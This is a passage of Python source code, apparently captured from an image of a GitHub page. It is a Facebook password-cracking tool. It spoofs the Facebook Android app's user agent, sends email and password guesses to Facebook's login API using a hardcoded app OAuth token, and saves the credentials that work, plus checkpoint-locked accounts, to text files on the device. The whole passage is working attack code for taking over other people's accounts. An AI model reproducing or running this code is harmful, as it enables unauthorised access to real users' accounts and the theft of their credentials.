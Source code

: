                                 android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/es_CU;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"es_CU","client_country_code":"CU",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-graph.facebook.com/auth/login?include_headers=false&decode_body_json=false&streamable_json_response=true'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print('\r\r\033[1;32m [AKRAM-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/AKRAM-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;208m [Ali-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/akram-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                        else:
                                                open('/sdcard/Akram-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
def rndm(ids,passlist):
                try:
                        global ok,loop